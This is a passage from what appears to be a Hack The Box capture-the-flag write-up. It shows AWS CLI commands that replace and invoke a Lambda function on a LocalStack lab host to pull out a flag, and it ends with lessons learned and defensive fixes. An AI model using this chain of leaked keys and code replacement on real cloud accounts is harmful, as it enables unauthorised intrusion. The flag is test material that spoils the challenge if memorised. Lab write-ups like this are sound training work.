 **Upload & invoke:**
```bash
(cd /tmp && zip -q accserv_new.zip lambda_function.py)

aws --endpoint-url http://cloud.htb lambda update-function-code \
  --function-name accserv-dev --zip-file fileb:///tmp/accserv_new.zip

# Optional: give ourselves more time (default was 3s)
aws --endpoint-url http://cloud.htb lambda update-function-configuration \
  --function-name accserv-dev --timeout 10

# Invoke and inspect
aws --endpoint-url http://cloud.htb lambda invoke \
  --function-name accserv-dev /tmp/out.json >/dev/null

jq -r '.body' /tmp/out.json | jq .
jq -r '.body' /tmp/out.json | grep -Eo 'HTB\{[^}]+\}|FLAG\{[^}]+\}|CTF\{[^}]+\}|OS\{[^}]+\}'
```

**Result:** The response body reveals the flag from a local file or HTTP path (e.g., `/flag` or a web route).  
> _Replace this line with your actual flag once obtained:_  
> **Flag:** `HTB{Upd4t3s_4r3_n0t_n1c3_1n_l4mbd4s}`

---

## 5) Cleanup (optional)
- If you recovered the original Lambda ZIP, restore it via another `update-function-code` call.
- Remove the `cloud.htb` entry from `/etc/hosts` if you want to revert your host mapping.

---

## 6) Lessons learned
- Exposed **`.git/`** → full code/secret leakage (commit history is gold).
- Devs pointed the app to a **LocalStack** “cloud” (`endpoint_url=http://cloud.htb`)—not AWS.
- **Leaked keys** + local endpoints enabled cloud‑like enumeration.
- Always search for: `.env`, `code.zip`, function names, regions, API Gateway routes, and inline `ZipFile` in Lambda metadata.
- Defensive fixes: Block `.git/`, avoid committing secrets, separate dev/local endpoints from internet‑exposed hosts, and limit metadata exposure.

---

### TL;DR
1. Find `.git/` → dump → read `create_function.py` → learn `cloud.htb`, `us-east-2`, `accserv-dev`  
2. Add `/etc/hosts` → query LocalStack Lambda via `--endpoint-url http://cloud.htb`  
3. Either pull the code ZIP (if accessible) **or** swap in a tiny handler to retrieve the flag.  
4. Invoke → read `"body"` → **extract flag** → `HTB{...}`

---

## 7) Proof / Evidence — Lambda invoke output & logs
